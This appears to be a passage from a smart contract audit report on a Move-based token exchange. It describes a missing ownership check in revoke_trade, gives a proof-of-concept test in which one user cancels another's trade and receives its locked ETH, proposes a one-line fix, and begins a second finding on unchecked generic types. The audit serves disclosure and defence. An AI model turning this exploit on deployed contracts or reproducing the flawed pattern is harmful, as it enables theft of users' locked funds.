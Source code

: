 **Affected Code**:
```rust
public fun revoke_trade<BaseTokenType>(
    user: &signer,
    trade_id: u64
) acquires TradeStore, TokenStore {
    // [...]
    transfer_tokens<BaseTokenType>(trade_store, address_of(user), trade.base_amount);
    // [...]
}
```
Impact:
An attacker could potentially drain all locked liquidity for any token type by canceling every user’s trades.

Proof of Concept:

``` rust

#[test(admin=@aquaswap, user=@0x3333)]
fun WHEN_exploit_improper_access_control(admin: &signer, user: &signer) acquires TokenCapability {
    setup_with_liquidity(admin, user);

    // let's say the admin deposits some ETH
    let my_eth = 500000000000000;
    mint<ETH>(my_eth, address_of(admin));
    let trade_id = market::limit_trade<ETH, BLU>(admin, my_eth, 500000000000000);

    // now, let's try stealing ETH from the admin
    assert!(token::balance<ETH>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(token::balance<BLU>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    market::revoke_trade<ETH>(user, trade_id); // trade owned by admin, but signer is user!

    assert!(token::balance<ETH>(address_of(user)) == my_eth, ERR_UNEXPECTED_BALANCE);
    assert!(token::balance<BLU>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE); // received BLU?
}

```
Correct Implementation:

```rust
assert!(trade.user_address == address_of(user), ERR_PERMISSION_DENIED);
```
## VUL-002: Absence of Generics Checking

**Severity**: Critical  
**Likelihood**: High  
**Location**: `public fun revoke_trade<BaseTokenType>`

**Description**:  
The `revoke_trade` function does not assert that the inputted `BaseTokenType` generic type matches the `base_type` `TypeInfo` stored on the `Trade` resource.
